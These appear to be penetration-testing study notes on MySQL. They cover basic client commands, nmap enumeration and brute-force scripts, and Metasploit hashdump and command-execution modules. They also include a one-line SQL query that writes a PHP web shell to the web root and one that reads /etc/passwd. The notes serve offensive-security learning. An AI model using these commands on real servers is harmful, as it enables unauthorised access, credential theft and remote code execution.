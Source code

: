 
### *What is MYSQL?
-------------------------------------

`MySQL` is an open-source SQL relational database management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. The database system can quickly process large amounts of data with high performance. Within the database, data storage is done in a manner to take up as little space as possible. The database is controlled using the [SQL database language](https://www.w3schools.com/sql/sql_intro.asp). MySQL works according to the `client-server principle` and consists of a MySQL server and one or more MySQL clients. The MySQL server is the actual database management system. It takes care of data storage and distribution. The data is stored in tables with different columns, rows, and data types. These databases are often stored in a single file with the file extension `.sql`, for example, like `wordpress.sql`.

### *MySQL Commands==
----------------------------------------------

| **Command**                                          | **Description**                                                                                       |
| ---------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `mysql -u <user> -p<password> -h <IP address>`       | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| `show databases;`                                    | Show all databases.                                                                                   |
| `use <database>;`                                    | Select one of the existing databases.                                                                 |
| `show tables;`                                       | Show all available tables in the selected database.                                                   |
| `show columns from <table>;`                         | Show all columns in the selected database.                                                            |
| `select * from <table>;`                             | Show everything in the desired table.                                                                 |
| `select * from <table> where <column> = "<string>";` | Search for needed `string` in the desired table.                                                      |
*  [to learn more ABout MySQL Command](https://www.bytebase.com/blog/top-mysql-commands-with-examples/)
* [SQL database language](https://www.w3schools.com/sql/sql_intro.asp)

### *Default Configuration
---------------------------------------------------------

The management of SQL databases and their configurations is a vast topic. It is so large that entire professions, such as `database administrator`, deal with almost nothing but databases. These structures become very large quickly, and their planning can become complicated. Among other things, DB management is a core competency for `software developers` but also `information security analysts`. To cover this area completely would go beyond the scope of this module. Therefore, we recommend setting up a MySQL/MariaDB instance to experiment with the various configurations to understand the available functionality and configuration options better. Let us have a look at the default configuration of MySQ

* [to learn how to Configuration Mysql][https://www.digitalocean.com/community/tutorials/how-to-install-mysql-on-ubuntu-20-04]

### Enumerating within MySQL
-----------------------------------------
#### __Nmap

Usually, the MySQL server runs on `TCP port 3306`, and we can scan this port with `Nmap` to get more detailed information.
```
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
```

##### __For exmple:

```shell-session
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```
##### !!!! You should edit --script-args for your MYSQL Server !!!

* *Audits MySQL database server security configuration
```
nmap -p 3306 --script mysql-audit --script-args "mysql-audit.username='root', \
  mysql-audit.password='foobar',mysql-audit.filename='nselib/data/mysql-cis.audit'" 192.168.x.x
```

*  *Bruteforce accounts and password against a MySQL Server
```
nmap --script=mysql-brute --script-args userdb=users.txt,passdb=passwords.txt -p 3306 192.168.x.x
```

* *Attempts to list all databases on a MySQL server. (creds required)
```
nmap -sV --script=mysql-databases -p 3306 192.168.x.x
```

### Interaction with the server

- `mysql -u root -h 10.129.14.132`
    
- `mysql -u root -pP4SSw0rd -h 10.129.14.128`
    
- `show databases;` list databases
    
- `select version();` show the version
    
- `use <database>;` select a database
    
- `show tables;` list the tables
    
- `show columns from <table>;`
    
- `select * from <table>;`
    
- `select * from <table> where <column> = "<string>";` Example:`select host, unique_users from host_summary;`
    
- `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';` write local files
    
- `select LOAD_FILE("/etc/passwd");` read local files

#### __Some of the enumeration actions require valid credentials

```
1. msf> use auxiliary/scanner/mysql/mysql_version
2. msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
3. msf> use auxiliary/scanner/mysql/mysql_hashdump #Need Credential
4. msf> use auxiliary/admin/mysql/mysql_enum #Need Credential
5. msf> use auxiliary/scanner/mysql/mysql_schemadump #Need Credential
6. msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Need Credential
```
